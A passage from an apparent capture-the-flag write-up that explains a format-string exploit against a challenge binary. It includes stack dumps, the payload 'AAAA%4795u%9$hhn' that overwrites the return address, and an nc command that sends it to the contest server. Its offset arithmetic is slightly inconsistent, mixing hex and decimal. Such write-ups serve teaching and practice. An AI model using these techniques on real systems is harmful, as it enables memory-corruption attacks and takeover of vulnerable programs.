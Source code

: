 ```
0x000055b44959b2b0 <+103>:   call   0x55b44959b365 <vuln>
0x000055b44959b2b5 <+108>:   mov    edi,0x1
```

Notice how it's the ninth line on the stack?

Now, one thing left,
when we type our input and press the return key,
the newline character is actually included!
Say, we input `ABCD`,
the stack would be like:

```
0x00007ffc5b499a58│+0x0018: 0x00007ffc5b499a60  →  0x0000000a44434241 ("ABCD\n"?)
0x00007ffc5b499a60│+0x0020: 0x0000000a44434241 ("ABCD\n"?)       ← $rsi
0x00007ffc5b499a68│+0x0028: 0x00007ffc5b499a90  →  0x0000000000000001
```

Notice the `\n` there?
That's the newline character.
We don't want that.
We can get around this by piping our payload from a file,
`./chall <payload`.

### First Payload

If we input `0` on on first payload,
on the same memory offset by PIE,
the stack would looks like this:

```
0x00007ffe94644a28│+0x0018: 0x00007ffe94644a30  →  0x0000000000000000
0x00007ffe94644a58│+0x0048: 0x0000558dcff682b5  →  <main+006c> mov edi, 0x1
```

First line is `ptr`, while second line is the return address.
Here, the return address is held by the offset `+0x40` relative to `ptr`,
at `0x00007ffe94644a58`
This means that we need to increase `ptr` by 40,
divide it by 4,
and so our first payload would be `10`.

### The Exploitation

First Payload: `10`
Second Payload: `AAAA%4795u%9$hhn`

```
$ xxd payload
00000000: 3130 0a41 4141 4125 3437 3935 7525 3924  10.AAAA%4795u%9$
00000010: 6868 6e                                  hhn
$ nc challenges.ctf.compfest.id 20007 <payload 
Halo, aku Peokra!! Aku bikin program yang bisa nerima input dari kalian.
Pertama, masukkan umur kalian untuk disesuaikan sama input (😅): Sekarang input, tapi kalian gak boleh masukin huruf 'n' ya:
```